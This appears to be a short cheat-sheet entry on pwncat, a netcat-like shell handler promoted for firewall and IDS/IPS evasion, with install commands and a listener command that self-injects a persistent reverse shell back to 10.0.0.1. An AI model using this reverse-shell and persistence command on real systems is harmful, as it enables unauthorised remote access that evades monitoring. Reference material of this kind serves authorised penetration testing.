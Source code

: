 ### Pwncat

`pwncat` is a sophisticated bind and reverse shell handler with many features as well as a drop-in replacement or compatible complement to `netcat`, `ncat` or `socat`.

> pwncat is like netcat on steroids with Firewall, IDS/IPS evasion, bind and reverse shell, self-injecting shell and forwarding magic - and its fully scriptable with Python ([PSE](https://github.com/cytopia/pwncat/tree/master/pse))

**Install pwncat**

```bash
# Kali Linux
sudo apt install pwncat

```

```bash
# pip
python3 -m pip install pwncat
```

**Setup a listener with unbreakable shell**
This will search for python on host and make a persistence shell back to you.

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```
